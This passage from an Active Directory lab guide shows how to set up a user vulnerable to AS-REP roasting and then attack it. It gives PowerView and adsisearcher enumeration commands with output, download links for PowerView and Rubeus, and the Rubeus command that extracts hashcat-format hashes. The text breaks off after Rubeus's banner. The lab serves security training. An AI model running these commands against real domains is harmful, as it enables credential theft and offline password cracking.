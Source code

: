 ### Setup

- Create a user (AsrepRoastUser). Go to Server Manager -> Tools -> Active Directory Users and Computers. Right click on Users and click New -> User. Fill in all the details.

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810214403.png)

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810214539.png)

- Right click on the new User and click properties. Go to Account tab and tick on **Do not require Kerberos preauthentication**. 

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810215016.png)

- Also take notes to tick on **"Password Never Expires"** and untick on **"User must Change password at next logon"**

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810222737.png)

### Attack On Windows

- Using **PowerView.ps1** we can enumerate users that have **Preauth** enabled.

```bash
# Download 
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1

# Commands (Powerview)
Get-DomainUser -PreauthNotRequired -Properties distinguishedname

# Output
distinguishedname
-----------------
CN=AsrepRoast User,CN=Users,DC=bank,DC=local

# Commands (adsisearcher)
([adsisearcher]"(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()

# Output
Path                                                Properties
----                                                ----------
LDAP://CN=AsrepRoast User,CN=Users,DC=bank,DC=local {givenname, codepage, objectcategory, dscorepropagationdata...}
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810221142.png)

- Then use these tools to get the hash

```bash
# Download (Rubeus)
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe

# Commands (Rubeus)
.\Rubeus.exe asreproast /format:hashcat /nowrap
 
# Output (Rubeus)

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

```